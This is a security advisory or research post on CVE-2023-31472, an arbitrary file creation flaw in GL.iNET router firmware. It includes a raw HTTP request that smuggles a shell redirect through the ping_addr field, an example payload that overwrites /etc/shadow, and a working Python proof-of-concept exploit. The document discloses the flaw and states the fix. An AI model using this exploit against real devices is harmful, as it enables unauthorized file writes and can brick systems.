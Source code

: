 ```yaml
---
title: 'CVE-2023-31472: GL.iNET Arbitrary File Creation'
date: 2023-05-18 00:00:02
tags: 
- security-research
- web
- iot
---
```


# [CVE-2023-31472](https://nvd.nist.gov/vuln/detail/CVE-2023-31472): GL.iNET Arbitrary File Creation
* **CVSS Score** - 7.5, High ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N))
* **Overview** - All GL.iNET devices running firmware <= 3.215 are vulnerable to arbitrary file write, where an empty file can be created anywhere on the filesystem. This is due to a command injection vulnerability with a filter applied. Example request below:

```
POST /api/internet/ping HTTP/1.1
Host: 192.168.8.1
Authorization: 80dafe40822e4a59b6daabd659617963
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 30

ping_addr=127.0.0.1+>/tmp/test
```

* **Description**
    * The API endpoint `/api/internet/ping` takes a `ping_addr` parameter, and piped it into the command `ping %s -c4  > /tmp/ping_result 2>&1`. 
    * Since firmware 3.215, all string parameters are checked to determine if shell injection characters (like `;` or `|` are being used), and any API requests with those special characters are immediately blocked. This check was implemented in response to CVE-2022-31898. These characters include `;`, `|`, `&`, `(`, `)`, `$`, and the backtick char. However, the `>` and `<` signs are not, hence allowing us this behavior. In addition, the `-` character is not prohibited, allowing us to add in special `ping` arguments. However, extra ping arguments don't really allow us much more control over the system.
    * Note that this can also be used to overwrite existing files. For example, the payload `127.0.0.1+>/etc/shadow` would overwrite the `/etc/shadow` binary, bricking the system.
* **Steps to reproduce** - run the Proof of Concept below using `python3 exploit.py <domain/IP> <authtoken> </path/to/file>`, such as `python3 exploit.py 192.168.8.1 80dafe40822e4a59b6daabd659617963 /tmp/arbitrary_file_write`

## Fix
This was fixed in 3.216 by filtering out all `>` characters.

# PoC
```python
import requests, sys
import urllib.parse
import warnings
warnings.filterwarnings("ignore")


## Get arguments
if (len(sys.argv) < 4):
    print("Usage: python3 exploit.py <domain/IP> <authtoken> <filepath>")
    sys.exit(1)

url = sys.argv[1]
token = sys.argv[2]
path = sys.argv[3]


## Send request
data = "ping_addr=127.0.0.1+>"+path
headers = {'Authorization': token, 'Content-Type': 'application/x-www-form-urlencoded'}
response = requests.request("POST", "https://"+url+"/api/internet/ping", verify=False, timeout=4, data=data, headers=headers)


## Check response
try:
    code = response.json()['code']
    if code == -1:
        print("[-] Auth token invalid")
    elif code == 0:
        print("[+] Command executed")
    else:
        sys.exit(1)
except:
    print("[-] Machine not vulnerable, error was encountered")
```